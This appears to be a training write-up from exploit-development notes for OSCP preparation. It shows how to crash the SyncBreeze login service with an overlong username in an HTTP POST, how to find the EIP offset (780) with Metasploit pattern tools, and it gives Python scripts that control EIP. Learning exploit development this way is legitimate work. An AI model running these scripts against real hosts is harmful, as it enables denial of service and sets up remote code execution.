

# Controlling EIP

## Replicating the Crash

Based on the fuzzing output, it can be assumed that the SyncBreeze application may be vulnerable to a buffer overflow attack when the input buffer is around 800 characters.

The first step will be to write a script that causes the crash without going through the whole fuzzing process:

The full script is on [GitHub](https://github.com/alex-christine/OSCP\_Exercises/blob/bf76db22fa260e827e7e0dee6082ea4c026e92be/BufferOverflows/Windows/crasher.py) but the key elements are below:

```python
#!/usr/bin/python3

import socket
import argparse
import netifaces


inputBuffer = "A" * size

content = "username=" + inputBuffer + "&password=A"

buffer = "POST /login HTTP/1.1\r\n"
buffer += "Host: " + vicIP + "\r\n"
buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer += "Accept-Language: en-US,en;q=0.5\r\n"
buffer += "Referer: http://" + vicIP + "/login\r\n"
buffer += "Connection: close\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: "+str(len(content))+"\r\n"
buffer += "\r\n"

buffer+=content

####################################  MAKE CONNECTION  #####################################

# Construct socket
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(args.timeout)

# Connect to victim
s.connect((vicIP, vicPort))

# Send buffer
s.send(buffer.encode())

# Close connection
s.close()
```

This will crash the application on demand as opposed to waiting for the fuzzer to reach the correct buffer size.

## Determining the Offset

With the code above the application can be crashed on demand by overwriting `$EIP` with arbitrary input (in this case `41414141`) which is usually an invalid address causing the crash. While this may provide the attacker a DoS opportunity it is not incredibly useful. In order to leverage this into code execution it is necessary to determine exactly which part of the buffer is ending up in `$EIP`.

Once determined, that part of the buffer can be constructed such that it points to a valid (and useful) memory address.

&#x20;There are 2 primary methods for doing this (assuming the attacker has the ability to view the stack of the running application through a debugger on their own copy of the app or some other means)

1. "Binary-tree" analysis
2. Pattern analysis

### Binary-Tree Analysis

Instead of providing a buffer of 800 A's the attacker could instead provide a buffer that is 400 A's followed by 400 B's. If `$EIP` is overwritten with A's the part of the buffer ending up in `$EIP` must be in the first 400 bytes of the buffer. If instead it is overwritten with B's the part of the buffer ending up in `$EIP` must be in the latter 400 bytes.

This process is then repeated on the appropriate portion of the buffer (either the first or second 400 bytes) replacing those 400 bytes with 200 C's and 200 D's.

The process repeats iteratively until the exact piece of the buffer ending up in `$EIP` is identified.

### Pattern Analysis

While the above approach is effective it can be time consuming. It would be faster to use a sufficiently long string that consists of non-repeating 4-byte chunks as the fuzzing input. Then by identifying which 4 byte chunk ended up in the `$EIP` register the piece of the buffer landing in `$EIP` can be identified.

Such a pattern can be generated with the Metasploit Framework's `pattern_create.rb`. The file itself is located inside the `usr/share/metasploit-framework/tools/exploit/` directory but it can also be executed from any terminal with the `msf-pattern_create` command.


```bash
kali@kali:~$ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1A...
```


Using the pattern:


```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
```


The registers of SyncBreeze looked like this after execution:

<figure><figcaption><p>Registers using pattern above</p></figcaption></figure>

`$EIP` was overwritten with `42306142` the hexadecimal representation of "B0aB"

The `msf-pattern_offset` command can be used to verify the exact offset with this information:

```bash
kali@kali:~$ msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780
```

From here it is possible to create a custom buffer to land whatever value is desired inside of the `$EIP` register. The core of the code to do so is as follows:

```python
try:
    ####################################  CONSTRUCT BUFFER  ####################################

    if (args.printMessage): print ("Constructing buffer")          
    
    filler = "A" * 780
    eip = args.eip
    
    # Pad end of buffer
    buffer = "C" * (800 - len(filler) - len(eip))
    inputBuffer = filler + eip + buffer
    
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: " + vicIP + "\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://" + vicIP + "/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer+=content
    
    if (args.printBuffer): print ("\n" + buffer + "\n")
    
    
    ####################################  MAKE CONNECTION  #####################################
    
    # Construct socket
    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    s.bind((attIP, 80))
    s.settimeout(args.timeout)
    if (args.printMessage): print ("Socket object constructed\nAttempting connection")
    
    # Connect to victim
    s.connect((vicIP, vicPort))
    if (args.printMessage): print ("Connected to victim")
    
    # Send buffer
    s.send(buffer.encode())
    if (args.printMessage): print ("Buffer sent")
    
    # Close connection
    s.close()
    if (args.printMessage): print ("Connection closed\nDone")

except Exception as e:
    print ("\nConnection failed")
    print ("Exception: " + str(e))
```

The code first fills the input buffer with 780 A's (can really be any value as this is just to fill the stack). The 4 bytes starting at 780 are the ones that land in $EIP. In this case the value is supplied as an argument (validated to be of length 4) and accessed via the `args.eip` reference.

Now that it is possible to control the value of `$EIP` it is time to place some useful code in memory and leverage this control to cause execution.
